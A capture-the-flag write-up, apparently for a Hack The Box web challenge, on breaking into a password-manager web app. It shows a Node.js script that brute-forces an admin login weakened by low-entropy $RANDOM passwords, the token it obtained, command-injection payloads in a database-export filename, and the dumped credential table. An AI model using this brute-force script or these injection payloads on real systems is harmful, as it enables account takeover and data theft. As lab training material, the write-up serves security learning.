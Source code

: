 ## IOI Vault
```
Aech discovered that Nolan Sorrento uses an I0I password manager to store his Oasis rig password. Can you help Parzival and Aech extract Sorrento's Oasis rig password?
Nolan Sorrento in Ready Player One
Does Nolan Sorrento own IOI?
Sorrento is the head of Innovative Online Industries, also known as IOI, the world's largest ISP.
Wade’s wireless VR headset. “Ready Player One” doesn’t waste a whole lot of time explaining how gadgets used in the film work, but Wade’s headset, which is also used by most other characters, essentially looks like a pair of fancy ski goggles. Light, wireless, and apparently working without any external hardware, it is capable of transporting you to the virtual world of the Oasis where ever you are
Aech (pronounced as the letter 'H') is a main character in Ernest Cline's Ready Player One. Aech has been Wade's best friend for years
Wade Owen Watts, under the virtual name Parzival, is the main protagonist of Erenest Cline's novel and Steven Spielberg's movie Ready Player One. 
Also in Fallout 3 The Vault 101 entrance password is "Amata". 
```
But absolutely none of that is relevant to the challenge, so, feel free to not read it :D

Looking at the source all user passwords were generated with funny bash oneliner:
```bash
function genPass() {
    echo -n $RANDOM | md5sum | head -c 32
}
```

Of course $RANDOM deoesn't have enough entropy to be safe to use as a password.
```bash
while true;do echo $RANDOM;done
```

So we just have to bruteforce IDOR that, I did it in node for learning sake, but you could do that with the language of your choice

```node
const fetch = require('node-fetch');
const crypto = require('crypto');


async function login() {

  for (let i = 0; i < 32767; i++) {

    const user = 'admin';
    //const hash = 'c8443b6213aa517f2d701ebf845fdae4';
    //const pass = '29073';
    const pass = i.toString();
    const hash = crypto.createHash('md5').update(pass).digest('hex');

    const query = `
      mutation($username: String!, $password: String!) {
        LoginUser(username: $username, password: $password) {
          message,
          token
        }
      }
    `;

    const variables = {
      'username': user,
      'password': hash
    };

    const endpoint = "http://64.227.37.161:32741/graphql";

    const response = await fetch(endpoint, {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ query, variables })
    });

    const res = await response.json();
    const jsonString = JSON.stringify(res);
    console.log(pass + ' - ' + hash);

    if (jsonString.includes('User logged in successfully!')) {
      console.log(res);
      process.exit(0);
    }
  }
}

login();
```

```bash
node brute.js
...
SNIP
...
1551 - 4e6cd95227cb0c280e99a195be5f6615
1552 - 351b33587c5fdd93bd42ef7ac9995a28
1553 - 18ead4c77c3f40dabf9735432ac9d97a
1554 - 98986c005e5def2da341b4e0627d4712
{
  data: {
    LoginUser: {
      message: 'User logged in successfully!',
      token: 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOjEsImlhdCI6MTY4MjQ4ODU2OH0.XJ4DiaIw2GzNnR3DWssvT7y06ziq0aWuKi-keJcPUaw'
    }
  }
}
```

So now we can login as admin with that token, and admin has access to an additionnal feature in the webapp, to dump the db, how convenient
```
router.get('/admin/export', AuthMiddleware, async (req, res, next) => {
    if (!req.user.is_admin) return res.redirect('/dashboard');

    const { filename } = req.query;

    if (filename) {
        try {
            execSync(`mysqldump -h 127.0.0.1 -uioi_vault -pioi_vault --add-drop-table ioi_vault > /opt/exports/${filename}.sql`);

            if (existsSync(`/opt/exports/${filename}.sql`)) {
                return res.download(`/opt/exports/${filename}.sql`, `${filename}.sql`);
            }
        }
        catch (e) {
            return res.status(500).send(response('Something went wrong!'));
        }
    }
```

And it's pretty obviously vulnerable to command injection, so
```
GET /admin/export?filename=ioivault_dump;sleep 5; HTTP/1.1
```

pop pop
```
GET /admin/export?filename=ioivault_dump;mysql -h 127.0.0.1 -uioi_vault -pioi_vault -Dioi_vault -e "update saved_passwords set note='$(/readflag)' where owner='admin';"; HTTP/1.1
```

And we just have to use our database dumping as a service (DDaS) for the exfiltration
```
GET /admin/export?filename=ioivault_dump HTTP/1.1
```

And it's looting time
```sql
--
-- Dumping data for table `saved_passwords`
--

LOCK TABLES `saved_passwords` WRITE;
/*!40000 ALTER TABLE `saved_passwords` DISABLE KEYS */;
INSERT INTO `saved_passwords` VALUES (1,'admin','Web','ioivault.htb','admin','admin123','HTB{1d0r5_4r3_3v3rywh3r3!!!}'),(2,'louisbarnett','Web','spotify.com','louisbarnett','YMgC41@)pT+BV','student sub'),(3,'louisbarnett','Email','dmail.com','louisbarnett@dmail.com','L-~I6pOy42MYY#y','private mail'),(4,'ninaviola','Web','office365.com','ninaviola1','OfficeSpace##1','company email'),(5,'alvinfisher','App','Netflix','alvinfisher1979','efQKL2pJAWDM46L7','Family Netflix'),(6,'alvinfisher','Web','twitter.com','alvinfisher1979','7wYz9pbbaH3S64LG','old twitter account');
/*!40000 ALTER TABLE `saved_passwords` ENABLE KEYS */;
UNLOCK TABLES;
```
